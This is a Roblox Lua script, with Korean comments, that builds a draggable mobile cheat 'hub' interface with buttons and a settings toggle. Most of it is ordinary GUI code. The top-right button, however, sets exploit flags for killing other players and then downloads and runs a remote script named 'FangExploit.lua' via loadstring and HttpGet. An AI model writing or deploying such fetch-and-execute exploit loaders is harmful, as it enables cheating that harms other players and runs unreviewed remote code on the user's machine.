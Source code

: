 local player = game.Players.LocalPlayer
local playerGui = player:WaitForChild("PlayerGui")

-- ScreenGui 생성
local gui = Instance.new("ScreenGui")
gui.Name = "MobileHub"
gui.ResetOnSpawn = false
gui.Parent = playerGui

-- MainFrame (허브 UI 전체)
local mainFrame = Instance.new("Frame")
mainFrame.Size = UDim2.new(0, 250, 0, 180)
mainFrame.Position = UDim2.new(0.5, -125, 0.4, -90)
mainFrame.BackgroundColor3 = Color3.fromRGB(40, 40, 40)
mainFrame.BorderSizePixel = 0
mainFrame.Parent = gui

-- 꼭짓점을 둥글게 만들기 위한 마스크 프레임 (위쪽만 둥글게 유지)
local maskedFrame = Instance.new("Frame")
maskedFrame.Size = UDim2.new(1, 0, 0.85, 0)  -- 아래쪽 직각 유지
maskedFrame.BackgroundTransparency = 1
maskedFrame.Parent = mainFrame

local corner = Instance.new("UICorner")
corner.CornerRadius = UDim.new(0, 16)
corner.Parent = maskedFrame

-- TitleBar (드래그 가능 영역, 색 더 진하게)
local titleBar = Instance.new("Frame")
titleBar.Size = UDim2.new(1, 0, 0, 30)
titleBar.BackgroundColor3 = Color3.fromRGB(25, 25, 25)  -- 더 진한 색
titleBar.BorderSizePixel = 0
titleBar.Parent = mainFrame

-- TitleBar 꼭짓점 둥글게 만들기
local titleCorner = Instance.new("UICorner")
titleCorner.CornerRadius = UDim.new(0, 16)
titleCorner.Parent = titleBar

-- 허브 UI 내용 예제 (텍스트)
local textLabel = Instance.new("TextLabel")
textLabel.Size = UDim2.new(1, 0, 1, -30)
textLabel.Position = UDim2.new(0, 0, 0, 30)
textLabel.Text = "모바일 허브 UI"
textLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
textLabel.BackgroundTransparency = 1
textLabel.Parent = mainFrame

-- 버튼 생성 함수
local function createButton(text, position)
    local button = Instance.new("TextButton")
    button.Size = UDim2.new(0.4, 0, 0, 30)  -- 크기 줄임
    button.Position = position
    button.Text = text
    button.TextColor3 = Color3.fromRGB(0, 0, 0)  -- 검정색 텍스트
    button.TextSize = 18  -- 🔹 텍스트 크기 증가
    button.BackgroundColor3 = Color3.fromRGB(255, 0, 0)  -- 빨간 버튼
    button.Parent = mainFrame
    
    -- 버튼 둥글게 만들기
    local buttonCorner = Instance.new("UICorner")
    buttonCorner.CornerRadius = UDim.new(0, 10)
    buttonCorner.Parent = button

    return button
end

-- 🔹 윗부분 버튼 (연한 부분 아래로 내리기, 겹치지 않도록 조정)
local topLeftButton = createButton("위 왼쪽", UDim2.new(0.05, 0, 0.2, 0))   
local topRightButton = createButton("위 오른쪽", UDim2.new(0.55, 0, 0.2, 0)) 

-- 🔹 아래 부분 버튼 (크기 줄이고 정렬)
local bottomLeftButton = createButton("아래 왼쪽", UDim2.new(0.05, 0, 0.75, 0))
local bottomRightButton = createButton("아래 오른쪽", UDim2.new(0.55, 0, 0.75, 0))

-- "위 오른쪽" 버튼 클릭 시 특정 스크립트 실행
topRightButton.MouseButton1Click:Connect(function()
    getgenv().exclude_me = false -- 본인 제외 여부
    getgenv().kill = true -- 죽일지 여부
    getgenv().fire = false -- 불을 붙일지 여부
    local func = ({pcall(loadstring, game:HttpGet("https://raw.githubusercontent.com/xsinew/scripts/refs/heads/main/FangExploit.lua"))})[2]
    pcall(func, func)
end)

-- 톱니 모양 버튼 생성 (왼쪽 고정)
local settingsButton = Instance.new("TextButton")
settingsButton.Size = UDim2.new(0, 50, 0, 50)
settingsButton.Position = UDim2.new(0, 10, 0.5, -25)
settingsButton.Text = "⚙️"
settingsButton.TextColor3 = Color3.fromRGB(255, 255, 255)
settingsButton.BackgroundColor3 = Color3.fromRGB(30, 30, 30)
settingsButton.Parent = gui

-- 허브 보이기/숨기기
mainFrame.Visible = false
settingsButton.MouseButton1Click:Connect(function()
    mainFrame.Visible = not mainFrame.Visible
end)

-- 🛠️ 드래그 기능 (화면 이동 문제 해결)
local UserInputService = game:GetService("UserInputService")
local dragging, dragInput, dragStart, startPos

titleBar.InputBegan:Connect(function(input)
    if input.UserInputType == Enum.UserInputType.MouseButton1 or input.UserInputType == Enum.UserInputType.Touch then
        dragging = true
        dragStart = input.Position
        startPos = mainFrame.Position

        input.Changed:Connect(function()
            if input.UserInputState == Enum.UserInputState.End then
                dragging = false
            end
        end)
    end
end)

titleBar.InputChanged:Connect(function(input)
    if input.UserInputType == Enum.UserInputType.MouseMovement or input.UserInputType == Enum.UserInputType.Touch then
        dragInput = input
    end
end)

-- 🔹 드래그 후 화면이 따라 움직이는 문제 수정
UserInputService.InputChanged:Connect(function(input)
    if dragging and input == dragInput then
        local delta = input.Position - dragStart
        local newX = startPos.X.Offset + delta.X
        local newY = startPos.Y.Offset + delta.Y

        -- 허브만 이동 (화면 이동 방지)
        mainFrame.Position = UDim2.new(startPos.X.Scale, newX, startPos.Y.Scale, newY)
    end
end)
